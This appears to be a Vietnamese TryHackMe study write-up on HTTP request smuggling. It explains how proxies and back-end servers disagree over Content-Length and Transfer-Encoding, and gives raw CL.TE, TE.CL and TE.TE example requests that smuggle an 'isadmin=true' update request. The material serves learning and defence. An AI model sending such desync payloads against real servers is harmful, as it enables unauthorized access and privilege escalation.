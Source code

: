 ```yaml
---
title: "HTTP Request Smuggling"
date: "2025-03-01"
excerpt: "HTTP Request Smuggling - Tryhackme"
featured: "/images/http_req_smug.png"
---
```


## Introduction

HTTP Request Smuggling là một lỗ hổng phát sinh khi có sự không khớp trong các thành phần cơ sở hạ tầng web khác nhau. Điều này bao gồm proxy, bộ cân bằng tải và máy chủ diễn giải ranh giới của các yêu cầu HTTP. Ví dụ, hãy xem xét một nhà ga xe lửa nơi vé được kiểm tra tại nhiều điểm trước khi lên tàu. Nếu mỗi điểm kiểm tra có tiêu chí khác nhau cho một vé hợp lệ, hành khách có thể khai thác những sự không nhất quán này để lên tàu mà không có vé hợp lệ. Tương tự như vậy, trong các yêu cầu web, lỗ hổng này chủ yếu liên quan đến các tiêu đề Content-Length và Transfer-Encoding, biểu thị phần cuối của nội dung yêu cầu. Khi các tiêu đề này bị thao túng hoặc diễn giải không nhất quán giữa các thành phần, điều này có thể dẫn đến việc một request bị lẫn với một request khác.

![image](https://hackmd.io/_uploads/B1n-VDpcyl.png)

Các cuộc tấn công phân tách yêu cầu hoặc HTTP desync có thể xảy ra do bản chất của các kết nối duy trì trạng thái kết nối và đường ống HTTP, cho phép nhiều yêu cầu được gửi qua cùng một kết nối TCP. Nếu không có các cơ chế này, việc chuyển lậu yêu cầu sẽ không khả thi. Khi tính toán kích thước cho Content-Length (CL) và Transfer-Encoding (TE), điều quan trọng là phải xem xét sự hiện diện của các ký tự trả về đầu dòng `\r` và xuống dòng `\n`. Các ký tự này không chỉ là một phần của định dạng giao thức HTTP mà còn ảnh hưởng đến việc tính toán kích thước nội dung.

## Modern Infrastructure

### Components of Modern Web Applications

- Front-end server: thường là proxy ngược hoặc bộ cân bằng tải và chuyển tiếp request tới backend server. 
- Back-end server: Xử lý các request của người dùng, tương tác với database, gửi data tới frontend.
- Databases
- APIs
- Microservices

### Load Balancers and Reverse Proxies
- Load Balancers: Các thiết bị hoặc dịch vụ này phân phối lưu lượng mạng đến nhiều máy chủ để đảm bảo không có máy chủ nào bị quá tải. VD: AWS Elastic Load Balancing, HAProxy và F5 BIG-IP.
- Reverse Proxies: đứng trước một hay nhiều máy chủ web, chuyển tiếp các yêu cầu của máy khách đến máy chủ web thích hợp. Mục đích chính là cung cấp điểm truy cập và kiểm soát duy nhất cho backend server.

![image](https://hackmd.io/_uploads/B1QLdPTckl.png)

### Role of Caching Mechanisms

Caching là một kỹ thuật dùng để lưu trữ và tái sử dụng dữ liệu đã lấy trước đó hoặc kết quả tính toán để tăng tốc các yêu cầu và tính toán tiếp theo. Trong bối cảnh cơ sở hạ tầng web:

- Content Caching: Lưu trữ web content mà nó không thay đổi (ảnh, css, js)
- Database Query Caching: Lưu trữ kết quả câu truy vấn.
- Full-page Caching: lưu trữ toàn bộ trang web.
- Edge Caching/CDNs
- API Caching

## Behind the Scenes

### Understanding HTTP Request Structure

Tất cả các HTTP Request bao gồm 2 phần: header và body.
![image](https://hackmd.io/_uploads/B1bwXjls1e.png)


### Content-Length Header

Content-Length cho ra kích thước (bytes) của request hay response => thông báo cho server có bao nhiêu data sẽ nhận được.

```
POST /submit HTTP/1.1
Host: good.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
    
q=smuggledData
```

### Transfer-Encoding Header

Được sử dụng để chỉ định hình thức mã hõa được áp dụng cho phần body. Các giá trị cho header này thường là: chunked, compress, deflate, gzip.

```
POST /submit HTTP/1.1
Host: good.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
    
b
q=smuggledData 
0
```
Trong ví dụ trên, "b" ở dạng hệ thập lục phân => 11 hệ thập phân => size = 11 bytes

### How Headers Affect Request Processing

Headers đóng vai trò quan trọng hướng dẫn server xử lý yêu cầu. Điều này do xác định cách phân tích body và ảnh hưởng đến các hành vi của bộ đệm. Chúng cũng ảnh hưởng đến xác thực, chuyển hướng và các phản hồi của máy chủ khác.

![image](https://hackmd.io/_uploads/HJCrqigi1g.png)

Thao túng các header Content-Length và Transfer-Encoding có thể tạo ra lỗ hổng. Ví dụ, nếu 1 proxy server bị nhầm lẫn bởi các header này => không phân biệt được chính xác nơi một yêu cầu kết thúc và một yêu cầu khác bắt đầu.

### HTTP Request Smuggling Origin

HTTP Request Smuggling xảy ra khi sự khác biệt giữa các server khác nhau (FE, BE) xử lý đường biên.
- Nếu cả Content-Length và Transfer-Encoding, nhầm lẫn có thể xảy ra.
- Một số thành phần ưu tiên CTL, và ngược lại.
- Một số thành phần tưởng request đã kết thúc, các thành phần khác thì vẫn tiếp tục dẫn đến smuggling.

![image](https://hackmd.io/_uploads/HJk0osls1l.png)

## Request Smuggling CL.TE

### Introduction to CL.TE request smuggling

CL.TE viết tắt của Content-Length/Transfer-Encoding. Trong kỹ thuạt này khai thác về sự khác biệt giữa các server giữa thứ tự ưu tiên, ví dụ:
- Proxy sử dụng Content-Length để quyết định phần kết thúc của request.
- Backend server sử dụng phần Transfer-Encoding.

![image](https://hackmd.io/_uploads/HJy6Toej1l.png)

### Exploiting CL.TE for Request Smuggling

Kỹ thuật này, hacker sẽ ghép request bao gồm 2 headers, đảm bảo rằng frontend server và backend server diễn giải các đường biên khác nhau.

```
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

Ở đây, frontend server thấy độ dài nội dung là 130 bytes -> kết thúc ở isadmin=true. Trong khí đó, backend server thấy Transfer-Encoding: chunked và diễn giải 0 là kết thúc của một đoạn, làm cho yêu cầu thứ 2 bắt đầu 1 đoạn mới. Điều này có thể dẫn đến máy chủ back-end coi bài đăng /cập nhật HTTP /1.1 là một yêu cầu mới, riêng biệt, có khả năng cung cấp cho kẻ tấn công truy cập trái phép.

## Request Smuggling TE.CL

### Introduction to TE.CL Technique

Khi proxy ưu tiên TE, còn backend ưu tiên CL.

![image](https://hackmd.io/_uploads/SkeFfhgoyl.png)


### Exploiting TE.CL for Request Smuggling

```
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

## Transfer Encoding Obfuscation

Transfer-Encoding/Transfer-Encoding => Cả FE, BE sử dụng TE.

![image](https://hackmd.io/_uploads/SJIX42ljkx.png)

Khai thác đưa về dạng CL.TE hoặc TE.CL

### Exploiting TE.TE for Request Smuggling

Sử dụng TE Header với mã hóa khác nhau.

```
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```


